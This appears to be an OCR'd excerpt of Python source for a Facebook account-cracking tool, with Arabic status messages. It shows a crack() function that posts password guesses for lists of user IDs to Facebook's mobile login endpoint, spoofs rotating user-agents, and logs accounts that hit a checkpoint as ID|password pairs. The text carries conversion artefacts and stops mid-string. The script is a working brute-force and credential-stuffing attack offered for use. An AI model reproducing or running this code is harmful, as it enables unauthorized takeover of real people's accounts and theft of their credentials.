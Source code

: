 	if woi in ['y','Y']:
		KilmenuViP()
	else:
		print(f'\t{x}[=]{k} انتهى الصيد . ')
		time.sleep(2)
		exit()


def crack(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	print('\r%s• K I L W A • %s/%s > OK %s > CP %s > %s%s%s'%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x), end=' ');sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			tix = time.time()
			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F').text
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
			ses.headers.update({"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				if 'ya' in oprek:
					akun.append(idf+'|'+pw)
					ceker(idf,pw)
				else:
					print('\n')
					statuscp = f'''
					كيلوا جابلك حساب فيسبوك سكيور🚀
					
<><><><><><><><><><<><><<<
